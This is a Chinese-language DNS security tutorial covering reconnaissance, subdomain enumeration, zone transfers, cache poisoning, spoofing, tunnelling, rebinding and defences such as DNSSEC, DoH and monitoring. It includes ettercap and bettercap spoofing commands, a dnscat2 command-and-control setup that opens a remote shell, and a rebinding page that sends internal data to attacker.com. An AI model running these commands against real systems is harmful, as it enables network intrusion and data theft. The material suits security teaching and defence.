



## 五、DNS相关技巧

DNS（Domain Name System，域名系统）是互联网的"电话簿"——将人类可读的域名转换为机器可读的IP地址。对安全从业者而言，DNS既是侦察阶段的信息金矿，也是多种攻击手法的核心载体。掌握DNS攻防技术是网络安全工程师的基本功。

### 5.1 DNS协议基础

#### 5.1.1 DNS解析流程

理解DNS攻防之前，必须先理解DNS解析的完整流程：



关键概念：
- **递归解析器（Recursive Resolver）**：代替客户端完成完整查询链路，通常由运营商或公共DNS（8.8.8.8、1.1.1.1）提供
- **权威服务器（Authoritative Server）**：存储域名最终记录的服务器，是攻击者侦察的重点目标
- **TTL（Time To Live）**：DNS记录的缓存存活时间（秒），决定了缓存投毒的窗口期
- **迭代查询 vs 递归查询**：客户端到解析器是递归（"帮我查到底"），解析器到各级服务器是迭代（"我不知道，你去问XX"）

#### 5.1.2 DNS记录类型详解

| 记录类型 | 用途 | 安全意义 | 示例 |
|---------|------|---------|------|
| A | 域名→IPv4地址 | 获取目标IP，判断托管位置 | `example.com. 300 IN A 93.184.216.34` |
| AAAA | 域名→IPv6地址 | IPv6环境下绕过仅过滤IPv4的防护 | `example.com. 300 IN AAAA 2606:2800:220:1:...` |
| CNAME | 域名别名→另一个域名 | 可追踪CDN后的真实域名或关联资产 | `www.example.com. CNAME example.com.` |
| MX | 邮件服务器 | 攻击面评估：邮件服务器是社工和钓鱼的入口 | `example.com. 10 mail.example.com.` |
| NS | 域名的权威DNS服务器 | 区域传送攻击的目标 | `example.com. NS ns1.example.com.` |
| TXT | 文本记录 | 含SPF/DKIM/DMARC等安全策略；域名验证令牌 | `example.com. TXT "v=spf1 include:..."` |
| SOA | 起始授权记录 | 含管理员邮箱、序列号，可推断组织信息 | `example.com. SOA ns1.example.com. admin.example.com. 2026062501 ...` |
| SRV | 服务定位 | 发现AD域控、Lync/Skype、SIP等内部服务 | `_ldap._tcp.example.com. SRV 0 60 389 dc01.example.com.` |
| PTR | IP→域名（反向解析） | 验证IP归属，发现共享主机上的其他域名 | `34.216.184.93.in-addr.arpa. PTR example.com.` |
| AXFR | 区域传送 | 完整获取域名所有记录，是最大的信息泄露风险 | `dig @ns1.example.com example.com AXFR` |

### 5.2 DNS信息收集与侦察

#### 5.2.1 基本DNS查询（dig命令）

`dig`（Domain Information Groper）是最强大的DNS查询工具，安全人员必须熟练掌握：

```bash
# === 基本记录查询 ===
dig example.com A                # 查询A记录（IPv4地址）
dig example.com AAAA             # 查询AAAA记录（IPv6地址）
dig example.com MX               # 查询邮件服务器
dig example.com NS               # 查询权威DNS服务器
dig example.com TXT              # 查询TXT记录（含SPF/DKIM/DMARC）
dig example.com CNAME            # 查询别名记录
dig example.com SOA              # 查询起始授权记录
dig example.com ANY              # 查询所有记录（部分DNS已禁用ANY查询）

# === 指定DNS服务器查询 ===
dig @8.8.8.8 example.com A       # 用Google DNS查询
dig @1.1.1.1 example.com A       # 用Cloudflare DNS查询
dig @ns1.example.com example.com A  # 直接查权威服务器

# === 反向DNS查询 ===
dig -x 93.184.216.34             # IP反查域名
dig -x 93.184.216.34 +short      # 只输出结果

# === 精简输出 ===
dig example.com A +short          # 只输出IP地址
dig example.com A +noall +answer  # 只显示answer段

# === 追踪完整解析路径 ===
dig example.com +trace            # 显示从根服务器开始的完整解析链

# === 查询指定记录类型的TTL ===
dig example.com A | grep -E "^example.com"  # 查看TTL值
```

#### 5.2.2 DNS记录的安全解读

DNS记录中隐藏着大量安全相关信息，这是很多初学者忽略的"金矿"：

**从SOA记录提取情报**：

```bash
dig example.com SOA +noall +answer
# 输出示例：
# example.com.  3600  IN  SOA  ns1.example.com. admin.example.com. 2026062501 3600 900 604800 86400
```

解读：
- `ns1.example.com.` — 主DNS服务器，可作为下一步侦察目标
- `admin.example.com.` — 管理员邮箱（admin@example.com），可用于社工或密码重置攻击
- `2026062501` — 序列号（通常格式YYYYMMDDNN），可判断最后修改时间
- `3600` — 刷新间隔（秒），了解DNS变更频率
- `900` — 重试间隔
- `604800` — 过期时间（7天）
- `86400` — 默认TTL（1天）

**从MX记录推断邮件基础设施**：

```bash
dig example.com MX +short
# 10 alt1.gmail.l.google.com.
# 20 alt2.gmail.l.google.com.
```

通过MX记录可判断目标使用的邮件服务（Google Workspace、Microsoft 365、自建），不同服务商有不同的安全特性和攻击面。

**从TXT记录挖掘安全策略**：

```bash
dig example.com TXT +short
# "v=spf1 include:_spf.google.com ~all"     ← SPF策略
# "v=DMARC1; p=reject; rua=mailto:dmarc@example.com"  ← DMARC策略
# "google-site-verification=abc123..."       ← Google域名验证
# "MS=ms12345678"                            ← Microsoft域名验证
```

- SPF（`~all` vs `-all`）：`~all`是软失败，仍可能被利用发送伪造邮件；`-all`是硬拒绝
- DMARC的`p=`策略：`none`仅监控、`quarantine`放垃圾箱、`reject`直接拒绝
- 域名验证令牌可关联到对应的SaaS服务账户

**从SRV记录发现内部服务**：

```bash
# Active Directory相关
dig _ldap._tcp.example.com SRV +short
dig _kerberos._tcp.example.com SRV +short
dig _gc._tcp.example.com SRV +short

# 通信服务
dig _sip._tls.example.com SRV +short
dig _xmpp-client._tcp.example.com SRV +short
```

SRV记录在内网渗透中极其有价值——它们暴露了域控制器、LDAP服务器、Kerberos服务器、即时通信服务的位置。

#### 5.2.3 其他DNS查询工具

```bash
# nslookup（跨平台，交互模式适合快速验证）
nslookup -type=MX example.com
nslookup -type=NS example.com
nslookup example.com 8.8.8.8    # 指定DNS服务器

# host命令（简洁输出，适合脚本中使用）
host -t MX example.com
host -t NS example.com
host 93.184.216.34               # 反向解析

# whois查询（获取域名注册信息）
whois example.com
# 关键字段：Registrar、Name Server、Updated Date、Registrant Email/Name/Organization
```

| 工具 | 适用场景 | 优势 | 劣势 |
|------|---------|------|------|
| dig | 精确查询、脚本化、故障排查 | 功能最全，输出可编程解析 | 仅Linux/macOS原生 |
| nslookup | 快速验证、跨平台 | Windows原生支持 | 输出不够结构化 |
| host | 脚本自动化 | 输出简洁，适合管道处理 | 功能有限 |
| whois | 域名注册信息 | 获取注册人、注册商信息 | 部分域名启用了隐私保护 |

### 5.3 子域名枚举

子域名枚举是渗透测试侦察阶段最关键的一步。找到更多的子域名意味着更大的攻击面——开发环境、测试服务器、内部管理系统往往比生产环境安全性更差。

#### 5.3.1 被动子域名收集

被动收集不直接与目标交互，隐蔽性最强：

```bash
# === 使用在线数据源 ===

# crt.sh — 证书透明度日志（最全面的被动来源之一）
curl -s "https://crt.sh/?q=%25.example.com&output=json" | \
  jq -r '.[].name_value' | sort -u

# VirusTotal API
curl -s "https://www.virustotal.com/api/v3/domains/example.com/subdomains" \
  -H "x-apikey: YOUR_API_KEY" | jq -r '.data[].id'

# SecurityTrails API
curl -s "https://api.securitytrails.com/v1/domain/example.com/subdomains" \
  -H "apikey: YOUR_API_KEY" | jq -r '.subdomains[]' | \
  sed 's/$/.example.com/'

# === 使用工具自动化 ===

# subfinder — 被动子域名发现（聚合20+数据源）
subfinder -d example.com -silent -o subdomains.txt

# amass — OWASP出品，功能最全面的资产发现工具
amass enum -passive -d example.com -o passive_subs.txt

# theHarvester — 集成DNS、搜索引擎、Shodan等多源
theHarvester -d example.com -b all -l 500
```

被动数据源对比：

| 数据源 | 覆盖范围 | 速率限制 | 是否需要API Key |
|--------|---------|---------|----------------|
| crt.sh（证书透明度） | SSL/TLS证书中出现的域名 | 无硬限制 | 不需要 |
| VirusTotal | 多源聚合 | 免费版4次/分钟 | 需要 |
| SecurityTrails | DNS历史记录 | 50次/月（免费） | 需要 |
| Shodan | 关联主机和服务 | 有限 | 需要 |
| DNSDB（Farsight） | 被动DNS数据库 | 付费 | 需要 |
| AlienVault OTX | 威胁情报 | 宽松 | 需要 |

#### 5.3.2 主动子域名枚举

主动枚举直接查询DNS，覆盖面更广但会留下日志：

```bash
# === DNS爆破（字典枚举）===

# dnsx — 快速DNS探测
cat wordlist.txt | dnsx -d example.com -silent

# gobuster DNS模式
gobuster dns -d example.com -w /usr/share/wordlists/subdomains-top1million-5000.txt -t 50

# ffuf DNS模式
ffuf -u "https://FUZZ.example.com" -w wordlist.txt -mc 200,301,302

# massdns — 高性能DNS解析器（百万级并发）
massdns -r resolvers.txt -t A -o S -w results.txt wordlist.txt

# === 推荐字典 ===
# /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
# /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
# /usr/share/seclists/Discovery/DNS/namelist.txt
# 自定义字典：{company}{suffix}模式，如 admin、dev、staging、test、vpn、mail、portal
```

#### 5.3.3 利用证书透明度日志

证书透明度（Certificate Transparency, CT）日志是最有价值的被动子域名来源之一。每当CA签发证书时，必须将证书信息提交到公开的CT日志中，这意味着即使是内部服务，如果申请了公开证书也会被记录：

```bash
# crt.sh 命令行查询
curl -s "https://crt.sh/?q=%25.example.com&output=json" | \
  jq -r '.[].name_value' | tr ',' '\n' | sort -u | \
  grep -E '\.example\.com$'

# 使用certsh工具
python3 -m certsh example.com

# 使用amass（包含CT日志数据源）
amass enum -src -d example.com | grep -i "ct"
```

CT日志的独特价值：
- 能发现已过期但可能仍在运行的子域名
- 能发现使用通配符证书背后的各个子域名
- 能追踪域名的证书历史变更

#### 5.3.4 区域传送攻击（AXFR）

DNS区域传送是DNS服务器之间同步区域数据的合法机制，但如果配置不当允许任意客户端执行区域传送，攻击者可以一次性获取该域名下的**所有**DNS记录：

```bash
# 基本区域传送
dig @ns1.example.com example.com AXFR

# 尝试所有NS服务器
dig example.com NS +short | while read ns; do
  echo "=== 尝试 $ns ==="
  dig @$ns example.com AXFR +noall +answer
done

# 使用host命令
host -t axfr example.com ns1.example.com

# 使用dnsrecon（自动化尝试+结果解析）
dnsrecon -d example.com -t axfr

# 使用dnsenum
dnsenum --enum example.com
```

如果区域传送成功，你将获得该域名下的**全部记录**——包括所有子域名、邮件服务器、内部主机名、服务记录等。这是效率最高的信息收集手段。

> **安全提示**：现代DNS服务器默认禁止开放区域传送。如果在生产环境中发现此漏洞，属于严重的安全配置缺陷，应立即修复。修复方法是在BIND中设置`allow-transfer { trusted-ips; };`，在Windows DNS中限制区域传送的范围。

### 5.4 DNS缓存投毒与欺骗

#### 5.4.1 攻击原理

DNS缓存投毒（Cache Poisoning）是通过向DNS递归解析器注入伪造的DNS响应，使其缓存错误的解析结果。所有使用该解析器的客户端都会被导向攻击者控制的IP地址。



经典攻击条件：
1. 攻击者能预测DNS事务ID（16位，早期实现可预测）
2. 攻击者能在权威响应到达之前发送伪造响应（时间窗口极短）
3. 伪造响应的源端口、事务ID、查询名必须完全匹配

#### 5.4.2 Kaminsky攻击

Dan Kaminsky在2008年发现的攻击方法大幅降低了缓存投毒的难度：

```text
核心思想：不是污染已存在的记录，而是不断查询不存在的随机子域名，
         在响应中附加对父域名的NS记录的伪造应答（bailiwick攻击）

攻击流程：
1. 攻击者向目标解析器发送大量 queries: rand001.victim.com, rand002.victim.com...
2. 每个查询对应一个伪造响应，其中：
   - Answer: rand001.victim.com NXDOMAIN（正确，因为确实不存在）
   - Authority: victim.com NS evil-ns.attacker.com（伪造）
   - Additional: evil-ns.attacker.com A 攻击者IP（伪造）
3. 由于事务ID只有16位（65536种可能），大量尝试后命中概率很高
4. 一旦命中，victim.com的所有查询都会导向攻击者的DNS服务器
```

此漏洞推动了以下防御措施的普及：
- DNS事务ID随机化
- 源端口随机化（DNS Source Port Randomization）
- 0x20编码（在查询中随机大小写字母作为额外校验）
- DNSSEC（端到端签名验证）

#### 5.4.3 DNS欺骗实战（本地网络）

在本地网络中，攻击者可以使用ARP欺骗配合DNS欺骗来劫持局域网内的DNS查询：

```bash
# 使用ettercap进行DNS欺骗
# 1. 编辑DNS欺骗配置文件
sudo nano /etc/ettercap/etter.dns
# 添加：
# example.com    A    192.168.1.100    ← 攻击者IP
# *.example.com  A    192.168.1.100

# 2. 启动ettercap（ARP欺骗 + DNS欺骗）
sudo ettercap -T -q -i eth0 -M arp:remote /192.168.1.1// /192.168.1.100//

# 使用bettercap（更现代的替代工具）
sudo bettercap -iface eth0
# 在bettercap交互界面中：
# > set arp.spoof.targets 192.168.1.100
# > set dns.spoof.domains example.com
# > set dns.spoof.address 192.168.1.100
# > arp.spoof on
# > dns.spoof on

# 使用responder（利用LLMNR/NBT-NS/MDNS进行本地欺骗）
sudo responder -I eth0 -wF
```

> **注意**：DNS欺骗仅在未使用DNSSEC和DoH/DoT的环境中有效。HTTPS证书验证也会阻止大部分利用场景——受害者访问被劫持的域名时会看到证书错误警告。

### 5.5 DNS隧道

DNS隧道（DNS Tunneling）利用DNS协议传输非DNS数据，常用于绕过网络访问控制。在受限网络中（如公共WiFi只允许DNS查询），DNS隧道可能是唯一的外网通信通道。

#### 5.5.1 工作原理


数据编码方式：
- **子域名编码**：将数据编码到子域名中，如 `aGVsbG8.exfil.attacker.com`（base32编码"hello"）
- **TXT记录**：响应中携带大量文本数据（最高效率，单条记录可达数KB）
- **CNAME/MX**：利用不同的记录类型传输数据
- **NULL记录**：可携带任意二进制数据

#### 5.5.2 dnscat2隧道实战

dnscat2是目前最成熟的DNS隧道工具：

```bash
# === 服务端（攻击者） ===
# 安装
sudo apt install dnscat2
# 或从源码
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server && sudo gem install bundler && bundle install

# 启动服务端（需要一个你控制的域名，将NS记录指向此服务器）
sudo ruby dnscat2.rb --dns domain=attacker.com --secret=mysecretkey --no-cache

# === 客户端（被控主机） ===
# 编译客户端
cd dnscat2/client && make

# 连接到C2服务器
./dnscat2 --dns server=ns.attacker.com,port=53 --secret=mysecretkey

# === 服务端操作 ===
# 查看活跃会话
dnscat2> sessions
# 交互会话
dnscat2> session -i 1
# 打开shell
dnscat2 (new session) 1> shell
# 端口转发
dnscat2> listen 127.0.0.1:8080 target_host:80
# 文件传输
dnscat2> upload /local/file /remote/path
dnscat2> download /remote/file /local/path
```

#### 5.5.3 iodine隧道

iodine是另一种流行的DNS隧道工具，创建IP-over-DNS隧道：

```bash
# 服务端
sudo iodined -f 10.0.0.1 attacker.com -P password
# 客户端
sudo iodine -f attacker.com -P password

# 隧道建立后，通过 10.0.0.0/24 网段通信
ping 10.0.0.1
```

#### 5.5.4 DNS隧道检测

```bash
# === 基于流量特征检测 ===

# 1. 查询频率异常 —— 正常DNS查询远低于隧道频率
# 每秒超过100次DNS查询应引起关注

# 2. 子域名长度异常
# 正常子域名 < 20字符，隧道数据编码后通常 > 50字符
tcpdump -i eth0 port 53 -nn | grep -E '[a-zA-Z0-9]{50,}'

# 3. TXT记录查询比例异常
# 隧道大量使用TXT记录，正常网络中TXT查询占比很低
tcpdump -i eth0 port 53 -nn | grep "TXT"

# 4. 高熵值子域名
# 随机编码的子域名熵值远高于正常域名
# 可使用python计算Shannon熵
python3 -c "
import math
def entropy(s):
    p = [s.count(c)/len(s) for c in set(s)]
    return -sum(x*math.log2(x) for x in p)
print(entropy('www'))        # 低熵：1.58
print(entropy('aGVsbG8xMjM'))  # 高熵：3.27
"

# === 使用专用工具检测 ===

# DNScat检测脚本
# 分析DNS查询中的dnscat2魔法字节
tcpdump -i eth0 port 53 -A | grep -E "\x44\x4e\x53\x43"  # "DNSC" magic

# Zeek/Bro IDS — DNS分析
# 在zeek配置中启用 dns.log 分析
# 检测字段：query长度、query频率、TXT查询比例、唯一子域名数量
```

| 检测指标 | 正常范围 | 隧道特征 | 检测方法 |
|---------|---------|---------|---------|
| 查询频率 | <10次/秒/客户端 | >100次/秒 | 时间窗口统计 |
| 子域名长度 | <20字符 | >50字符 | 正则匹配 |
| TXT查询比例 | <5% | >30% | 协议分析 |
| 域名熵值 | <2.5 | >3.5 | Shannon熵计算 |
| 响应大小 | <200字节 | >1KB | 包大小统计 |

### 5.6 DNS重绑定攻击

DNS重绑定（DNS Rebinding）是一种绕过浏览器同源策略（SOP）的攻击技术，通过在DNS解析和HTTP请求之间切换IP地址，让浏览器访问到内网资源。

#### 5.6.1 攻击原理

```text
时间线：
T0: 浏览器查询 evil.com → 攻击者DNS返回 TTL=0, A=攻击者IP
T1: 浏览器加载 evil.com 页面（来自攻击者服务器）
T2: 页面中JavaScript发起请求到 evil.com:port
T3: 此时DNS已过期，浏览器重新查询 → 攻击者DNS返回 A=192.168.1.1（内网IP）
T4: 浏览器向 192.168.1.1:port 发起请求（同源策略认为是同一个域名）
T5: 攻击者通过JavaScript读取内网服务响应并外传
```

```bash
# 使用rebinder工具演示
# 安装
pip install rbndr

# 启动DNS服务器（返回交替的两个IP）
sudo python3 -m rbndr 192.168.1.1 203.0.113.1

# 攻击页面示例
cat > /var/www/html/attack.html << 'EOF'
<script>
// 无限重试直到DNS重绑定发生
setInterval(function() {
    fetch("/secret").then(r => r.text()).then(data => {
        // 将内网数据外传
        fetch("https://attacker.com/exfil?data=" + btoa(data));
    });
}, 1000);
</script>
EOF
```

**防御方式**：
- DNS Pinning（浏览器强制缓存DNS结果）
- 服务端验证Host头和Origin头
- 内网服务增加认证
- 使用DNSSEC防止DNS篡改

### 5.7 DNS安全机制

#### 5.7.1 DNSSEC

DNSSEC（DNS Security Extensions）通过数字签名验证DNS响应的完整性和真实性，防止缓存投毒和DNS欺骗。



```bash
# 验证DNSSEC是否启用
dig example.com DNSKEY +dnssec
dig example.com DS +dnssec

# 使用delv工具验证DNSSEC链（比dig更专业）
delv @8.8.8.8 example.com A +rtrace

# 查看RRSIG（资源记录签名）
dig example.com A +dnssec +noall +answer
# example.com.  300  IN  A  93.184.216.34
# example.com.  300  IN  RRSIG  A 13 2 300 20260701000000 20260610000000 12345 example.com. <base64-signature>

# 检查域名是否支持DNSSEC
dig +short example.com DS
# 如果返回非空，说明域名已配置DNSSEC
```

DNSSEC信任链验证流程：
1. 根区公钥是预置在解析器中的（Trust Anchor）
2. 根区的DS记录哈希验证.com的DNSKEY
3. .com的DS记录验证example.com的DNSKEY
4. example.com的DNSKEY签名验证其A记录的RRSIG
5. 任何一环失败，解析器返回SERVFAIL

#### 5.7.2 DoH（DNS over HTTPS）

DoH将DNS查询封装在HTTPS中（端口443），防止中间人窃听和篡改DNS查询：

```bash
# 使用curl进行DoH查询
curl -s "https://dns.google/resolve?name=example.com&type=A" | jq .
curl -s "https://cloudflare-dns.com/dns-query?name=example.com&type=A" \
  -H "accept: application/dns-json" | jq .

# 配置系统使用DoH（Linux systemd-resolved）
sudo mkdir -p /etc/systemd/resolved.conf.d/
cat << 'EOF' | sudo tee /etc/systemd/resolved.conf.d/doh.conf
[Resolve]
DNS=1.1.1.1#cloudflare-dns.com 9.9.9.9#dns.quad9.net
DNSOverTLS=yes
EOF
sudo systemctl restart systemd-resolved

# 使用dnscrypt-proxy（支持DoH和DNSCrypt）
sudo apt install dnscrypt-proxy
# 编辑 /etc/dnscrypt-proxy/dnscrypt-proxy.toml
# server_names = ['cloudflare', 'google']
# [sources.public-resolvers]
# urls = ['https://download.dnscrypt.info/resolvers-list/v3/public-resolvers.md']
```

#### 5.7.3 DoT（DNS over TLS）

DoT使用TLS加密DNS查询（专用端口853），比DoH更轻量：

```bash
# 使用kdig进行DoT查询
kdig @1.1.1.1 example.com A +tls

# 使用openssl手动验证
openssl s_client -connect 1.1.1.1:853 -servername cloudflare-dns.com
```

三种DNS传输方式对比：

| 特性 | 传统DNS | DoT | DoH |
|------|--------|-----|-----|
| 端口 | 53 (UDP/TCP) | 853 | 443 |
| 加密 | 无 | TLS | TLS (HTTPS) |
| 隐蔽性 | 低（明文） | 中（专用端口可被封禁） | 高（混在HTTPS流量中） |
| 性能 | 最快 | 略慢 | 较慢（HTTP开销） |
| 兼容性 | 所有设备 | 需客户端支持 | 需客户端支持 |
| 抗审查 | 无 | 弱（端口可封） | 强（难与HTTPS区分） |

### 5.8 DNS缓存管理

DNS缓存管理在安全测试和故障排查中是常见需求：

```bash
# === 清除本地DNS缓存 ===

# macOS
sudo dscacheutil -flushcache && sudo killall -HUP mDNSResponder

# Linux (systemd-resolved)
sudo systemd-resolve --flush-caches
# 或
sudo resolvectl flush-caches

# Linux (nscd)
sudo systemctl restart nscd

# Windows（管理员CMD）
ipconfig /flushdns

# === 查看DNS缓存 ===

# macOS
sudo killall -INFO mDNSResponder  # 缓存信息输出到系统日志

# Linux (systemd-resolved)
resolvectl statistics

# Windows
ipconfig /displaydns

# === 修改本地DNS配置 ===

# Linux临时修改（立即生效，重启失效）
echo "nameserver 8.8.8.8" | sudo tee /etc/resolv.conf

# Linux永久修改（systemd-resolved）
sudo mkdir -p /etc/systemd/resolved.conf.d/
cat << 'EOF' | sudo tee /etc/systemd/resolved.conf.d/dns.conf
[Resolve]
DNS=8.8.8.8 1.1.1.1
FallbackDNS=8.8.4.4 1.0.0.1
EOF
sudo systemctl restart systemd-resolved

# 通过hosts文件覆盖DNS解析（渗透测试常用）
echo "192.168.1.100 target.com" | sudo tee -a /etc/hosts
```

### 5.9 DNS安全加固与检测

#### 5.9.1 DNS服务器安全加固

```bash
# === BIND9安全配置 ===

# /etc/bind/named.conf.options
options {
    # 禁止递归查询（仅权威服务器应开启）
    recursion no;
    
    # 限制区域传送
    allow-transfer { none; };
    
    # 隐藏版本信息
    version "not disclosed";
    
    # 限制查询来源
    allow-query { trusted-nets; };
    
    # 启用DNSSEC验证
    dnssec-validation auto;
    
    # 限制缓存大小
    max-cache-size 256m;
    
    # 启用查询日志（调试时使用，生产环境慎用）
    // querylog yes;
};

# === Windows DNS安全加固 ===
# 1. 启用DNSSEC签名
# 2. 限制区域传送范围
# 3. 配置响应速率限制（RRL）
# 4. 启用DNS审计日志
```

#### 5.9.2 DNS安全监控

```bash
# === 实时监控DNS查询 ===

# tcpdump捕获所有DNS流量
sudo tcpdump -i eth0 port 53 -nn -l | tee /tmp/dns_log.txt

# 统计高频查询域名（检测DGA域名或隧道）
cat /tmp/dns_log.txt | grep -oP 'A\?\s\K\S+' | sort | uniq -c | sort -rn | head -20

# 检测DGA（域名生成算法）域名 — 高熵、长域名
cat /tmp/dns_log.txt | grep -oP 'A\?\s\K\S+' | \
  python3 -c "
import sys, math
for line in sys.stdin:
    domain = line.strip().rstrip('.')
    name = domain.split('.')[0] if '.' in domain else domain
    if len(name) > 10:
        p = [name.count(c)/len(name) for c in set(name)]
        e = -sum(x*math.log2(x) for x in p)
        if e > 3.5:
            print(f'[SUSPICIOUS] {domain} (entropy={e:.2f}, len={len(name)})')
"

# === 使用Zeek进行DNS分析 ===
# /usr/local/zeek/bin/zeek -i eth0 local
# 分析 /usr/local/zeek/logs/current/dns.log
```

### 5.10 常见误区与最佳实践

#### 常见误区

| 误区 | 事实 | 纠正 |
|------|------|------|
| DNS只是把域名转IP | DNS记录包含MX、TXT、SRV等大量安全相关信息 | 系统性查询所有记录类型 |
| dig能查到所有记录 | 部分DNS服务器禁用ANY查询；内部记录不会出现在公网DNS | 结合被动数据源和主动枚举 |
| 区域传送总是失败的 | 很多老旧或配置不当的服务器仍然允许开放区域传送 | 永远尝试AXFR，成本极低收益极高 |
| DNS隧道只是理论攻击 | dnscat2等工具在实战中被广泛使用 | 部署DNS流量检测和审计 |
| HTTPS能防止DNS劫持 | HTTPS防止的是内容窃听，DNS查询本身仍然是明文的 | 使用DoH/DoT加密DNS查询 |
| 子域名枚举只看DNS | 证书透明度、搜索引擎缓存、JS文件、第三方数据源都包含子域名信息 | 多源交叉验证 |

#### 最佳实践清单

**攻击方（渗透测试）**：
1. 先被动后主动——先用crt.sh和subfinder收集，再用字典爆破
2. 查询所有记录类型——不要只查A记录，MX/TXT/SRV/SOA都包含情报
3. 尝试所有NS服务器的区域传送——可能只有部分服务器配置正确
4. 分析SOA和TXT记录中的组织信息——管理员邮箱、SPF策略、SaaS服务指纹
5. 记录TTL——低TTL可能意味着使用了CDN或负载均衡
6. 用不同DNS服务器交叉验证——结果可能不同（Split DNS）

**防御方（蓝队）**：
1. 禁用不必要的区域传送
2. 部署DNSSEC防止缓存投毒
3. 使用DoH/DoT保护终端DNS查询
4. 监控DNS流量中的异常模式（高频查询、长域名、高熵域名）
5. 定期审查DNS记录——删除不再使用的记录，减少信息泄露面
6. 对内部域名使用独立的DNS服务器——不要将内部主机名暴露在公网DNS中
